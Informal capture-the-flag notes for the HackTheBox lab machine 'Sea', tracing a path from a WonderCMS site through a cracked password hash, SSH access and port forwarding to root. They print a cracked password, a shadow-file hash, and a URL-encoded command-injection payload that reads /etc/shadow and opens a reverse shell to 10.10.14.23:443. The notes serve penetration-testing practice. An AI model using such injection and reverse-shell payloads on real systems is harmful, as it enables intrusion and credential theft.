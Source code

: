 ___


*php here*
http://sea.htb/contact.php


there is <!---admin CSS---> comment so there must be some admin page here that i can't see

this is php website, I have a php cookie for my user, also other pages I get forbidden in


fuzzing:
dirs looks like nothing i can access
subdomains also nothing



*found this version for what???*
3.2.0



*wonder CMS bike theme* found it!!!
https://github.com/robiso/bike



"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",


this hash is escaped!!! bc its in json format had to remove the \ chars and the john runs it



*cracked pass*
?:mychemicalromance



*version*
[WonderCMS 3.4.2](https://wondercms.com)


*2 users*
drwxr-xr-x  4 amay amay 4.0K Aug  1  2024 amay
drwxr-x---  4 geo  geo  4.0K Aug  1  2024 geo


*ssh*
user: amay
pass: mychemicalromance

*need to get geo user enum amay as well*



*I get access denied on these*

tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:55733         0.0.0.0:*               LISTEN

google chrome in /opt

*port forward that  + linpeas.sh*


*amay signs in localhost:8080*

# System Monitor(Developing)



===> *55737 is google chrome port* <- pretty sure this is what is clicking on my xss exploit (so i think no the way)

*that other port has this*
200      GET       20l       70w      687c http://localhost:55733/devtools/inspector.html
200      GET       17l       38w      865c http://localhost:55733/json



*can try to connect with chrome dev tools*
*nothing interesting on 8080 though.... and geo....


===> *this is a cron job for crome running daily in the machine*

*lrwxrwxrwx   1 root root   37 Jul 29  2024 google-chrome -> /opt/google/chrome/cron/google-chrome

but like running as root? <- can I escalate privs?



*check ig*
-rw-r--r-- 1 root root 807 Feb 25  2020 /etc/skel/.profile
-rw-r--r-- 1 amay amay 807 Feb 25  2020 /home/amay/.profile

-rw-r--r-- 1 root root 3771 Feb 25  2020 /etc/skel/.bashrc
-rw-r--r-- 1 amay amay 3771 Feb 25  2020 /home/amay/.bashrc




*backups dir what is this /snap/core20*
/snap/core20/2318/var/backups



Binary file /var/log/journal/bc3805e3e6b449d38bd0a698ebf1ae9c/user-1000.journal matches



# System Monitor(Developing)
 *this is prob running as root*


*system monitor running as root I can read any file but only 21 lines bruvs*
#21 lines


*how do i get geo -> can read any file but what file to read???*

system monitor is prob running from root files r there


mychemicalromance



adding +# on the parameter showed me full output uncut; i think comenting out the bash code of whaterver was coming after

+is space


*geo hash*

geo:$6$5mAIqOze4GJ4s9Zu$P3IgUSHlcCkKpDJ0862IgP5aqaNilEUZDGIm16FiWdxh1A5dfKjmwhMgp3xctHiHZVWGtmKY25cCrILanDPaG.:19934:0:99999:7:::


 *payload*
log_file=/etc/shadow+;/bin/bash+-c+"sh%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E23%2F443%200%3E%261";+#&analyze_log=/home/test_log.log


this got root shell


